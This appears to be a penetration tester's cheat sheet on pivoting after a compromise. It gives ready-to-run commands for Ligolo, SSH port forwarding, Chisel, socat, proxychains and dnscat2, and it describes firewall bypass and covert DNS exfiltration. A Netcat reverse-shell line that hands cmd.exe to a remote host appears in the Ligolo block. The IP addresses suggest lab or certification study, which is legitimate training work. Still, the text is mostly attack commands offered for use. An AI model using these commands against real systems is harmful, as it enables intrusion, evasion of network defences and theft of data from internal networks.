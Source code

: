 ## Port Tunneling & Redirection

#### Ligolo

Think of it as disguising your machine as the pivot machine in the eyes of the firewall. Favorite for tunnelling.

Scenarios.
- Use a service that is only available on the localhost of the target like RDP or web server.
- Transfer files from internal (through pivot) to attacker and vise versa.


```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.201.0/24 dev ligolo # Discard 4th octect of victim machine's internal ip
ip route list
sudo ligolo-proxy -selfcert

./agent -connect 192.168.45.221:11601 -ignore-cert -retry # Target

session # select the session that you want to work with
1
start
listener_add --addr 0.0.0.0:3389 --to 127.0.0.1:3389
listener-list # confirm

.\nc.exe 172.16.157.14 1234 -e cmd.exe # On target machine to receive revshell
# If web server, access browser and/or direct attacks to localhost:port

# Great for transferring files when testing AD
listener_add --addr 0.0.0.0:1433 --to 172.10.121.15:1433 # If you need to use specific port for internal
```

You may need to create certificates:

```bash
mkdir -p ~/Downloads/certs
cd ~/Downloads/certs
openssl req -newkey rsa:2048 -new -nodes -x509 -days 3650 -keyout key.pem -out cert.pem
```

#### Local Forwarding

Binding local ports to dmz ones and using your local machine to act as the (accessible) remote machine.

#### Local Port Forwarding

Local port forwarding allows you to forward a port on the local machine to a remote server. This is useful for accessing a remote service as if it were running on your local machine.
- Access an internal database via a pivot machine, bypassing rules against direct external connections.
- Connect to an email server's local-only management interface, circumventing local access restrictions.
- Reach a DMZ server without direct connections, navigating DMZ-specific ingress rules.
- Bypass firewall blocks on remote ports to access restricted services.
- Transfer files to a non-directly accessible server, overcoming remote file transfer blocks.

Access remote HTTPS website that's on port 443.

```bash
ssh -N -L localhost:localPort:destinationServer:remotePort user@SSHserver
ssh -N -L 127.0.0.1:443:127.0.0.1:8443 web_admin@10.4.50.215
ssh -N -L 9000:localhost:8000 -i 245/id_ecdsa anita@192.168.196.246 -p 2222
```

Upload files to remote.

```bash
ssh -N -L 9000:dmz_ip:22 user@dmz_ip
scp -P 9000 local_backup_file.tar.gz localhost:/path/to/destination/
```

Download files from remote.

```bash
ssh -L 9001:internal_server:22 user@pivot_machine # Download files from remote
scp -P 9001 localhost:/path/to/config_file.conf /local/path/ 
```


### Local Dynamic Port Forwarding

Allows you to create a SOCKS proxy server on the local machine, which can be used to forward requests dynamically to multiple destinations.

- Use the dynamic port forwarding to scan multiple ports on a target network without setting up individual port forwards for each.
- Access multiple services on different ports and different servers through a single local SOCKS proxy.

```bash
ssh -fND 0.0.0.0:9999 database_admin@10.4.50.215
socks4 127.0.0.1 9999 # Edit /etc/proxychains4.conf
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

```bash
chisel server --reverse --port 51234 # Attacker, make sure this port is open in the firewall
/tmp/chisel client kali_ip:51234 50080:socks
```

#### Remote Forwarding

Using a pivot machine as a middle man.

Scenarios.
- Internal AD environment is shut off to you, use your compromised machine as a pivot to dig further.
- Transfer files from internal to attacker through pivot.

#### Remote Port Forwarding

Remote port forwarding allows you to forward a port on the remote server to a local machine. This is useful for exposing local services to a remote network.

- Expose an internal web server via a remote pivot.
- Strict firewall egress doesn't allow traffic in or out of 1433 outside of the network.
- Provide remote access to a local file server, overcoming local network file access restrictions.

```bash
chisel server --reverse --port 5000
/tmp/chisel client kali_ip:5000 R:443:127.0.0.1:443 R:8443:127.0.01:8443
curl localhost:8443 # On attacker machine
```

```bash
ssh -N -R remotePort:localServer:localPort kali@$myip # On pivot machine
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
psql -h 127.0.0.1 -p 2345 -U postgres # Now access PostgreSQL via Local Port
```

Upload files to internal.

```bash
ssh -R 9002:localhost:22 user@internal_ip # Execute commands on pivot machine
scp -P 9002 update_package.zip internal_user@localhost:/path/to/internal_folder/
```

### Remote Dynamic Port Forwarding

Remote dynamic port forwarding allows setting up a SOCKS proxy on a remote server to dynamically forward traffic from the remote server to multiple destinations.

- Internal AD environment is shut off to you, use your compromised machine as a pivot to dig further.
- Access services across remote networks, bypassing direct internet exposure rules.
- Perform network monitoring from afar, avoiding restrictions on external monitoring tools.

```bash
ssh -N -R remotePort:localServer:localPort kali@$myip # On pivot machine
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
psql -h 127.0.0.1 -p 2345 -U postgres # Now access PostgreSQL via Local Port
```

### Chisel

Scenarios.
- You compromised Confluence server, but only HTTP outbound traffic is allowed.
- A network administrator blocks all outbound SSH traffic, affecting SSH-based tunneling strategies.

Troubleshooting.
- Make sure versions are compatible.
- Ensure ip addresses are in the right locations

Using target's service that's only available on their localhost.

```bash
chisel server --reverse --port 51234 # Attacker
./chisel client $myip:51234 R:8443:127.0.0.1:8443 # Target
```

Masquerading as HTTP traffic.

```bash
chisel server --reverse --socks5 -p 8001 &> /tmp/output 
chisel server --port 8080 --reverse &> /tmp/output # For TCP Traffic

./chisel client 192.168.45.221:8001 R:socks # Client

socks5 127.0.0.1 8001 # sudo vi /etc/proxychains5.conf
proxychains ...
```

```bash
/tmp/chisel server --reverse --port 51234
/tmp/chisel client kali_ip:51234 R:50080:socks
```

### Port Redirection with Socat

Scenario.
- Redirect traffic from an external-facing port to an internal service.

```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 # Victim
ssh database_admin@192.168.50.63 -p2222
```

### Using Browser with Proxychains

Configure Proxychains

```bash
socks4 127.0.0.1 9050 # Edit /etc/proxychains.conf
proxychains firefox
```

### DNS Tunneling

Scenarios.
- Sending data out of a network covertly via DNS queries.
- Sending data into a network covertly via DNS responses.

#### Basic Usage

```bash
dnscat2-server <YOUR_DOMAIN> # Attacker
./dnscat <YOUR_DOMAIN> # Target
```

#### Network Monitoring

```bash
tcpdump -i eth0 'tcp port 80' # Monitor HTTP Traffic
tcpdump -i eth0 'udp port 53' # Monitor DNS Queries
```

#### Resourcess

[Ligolo](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)
[Port Forwarding](https://github.com/twelvesec/port-forwarding)